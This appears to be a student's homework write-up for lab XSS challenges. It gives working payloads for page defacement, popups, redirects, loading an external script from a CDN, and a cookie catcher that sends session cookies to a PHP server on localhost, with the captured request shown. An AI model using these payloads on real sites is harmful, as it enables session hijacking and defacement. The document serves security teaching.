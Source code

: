 # XSS

Challenge 1: Site Defacing / HTML Injections

1. Set the background to a different color
2. Display another image on the website
3. Create a link on the website

Challenge 2: JavaScript / Cross Site Scripting

1. Popup: Display a message to the client
2. Redirect the client to some other website
3. Create a session with the server and display the current sesssion ID
4. Try to load JS code from a different web source into the website

Challenge 3: Javascript / Cookie Catcher

1. Write a "Cookie Catcher", Clientside: Javascript, Backend: PHP

## Challenge 1

1. name: `<style>body { background-color: black; }</style>`

    ![image1-1](images/1-1.png)

2. name: `<img src="https://cdn.vox-cdn.com/thumbor/6bvYA8Z7hBRrMJ965Rb20uKB628=/0x0:1192x795/1200x628/filters:focal(596x398:597x399)/cdn.vox-cdn.com/uploads/chorus_asset/file/22312759/rickroll_4k.jpg">`

    ![image1-2](images/1-2.png)

3. name: `<br/><a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">Click here for free stuff!</a>`

    ![image1-3](images/1-3.png)

    Here, I used `<br/>` to add a newline.

## Challenge 2

1. name: `<script>alert('Hello!');</script>`

    ![image2-1](images/2-1.png)

2. name: `<script>window.location.href = 'https://www.youtube.com/watch?v=dQw4w9WgXcQ';</script>`

3. name: `<script>alert(document.cookie);</script>`
    
    ![image2-3](images/2-3.png)

4. name: `<script src="https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js"></script>`
    
    ![image2-4](images/2-4.png)

## Challenge 3

Install PHP and then run a PHP development server in the HW3 folder using `php -S localhost:8000`.

Then, in the website, write:

name: `<script>var img = new Image(); img.src = 'http://localhost:8000/cookie.php?cookie=' + encodeURIComponent(document.cookie);</script>`

You will receive a request similar to this on your PHP server:

`[Sun Jul  7 15:37:14 2024] 127.0.0.1:48536 [200]: GET /cookie.php?cookie=PHPSESSID%3Duh0o7tbpta72h7am76rssllpae`

And the file `cookies.log` will be created with the cookie.
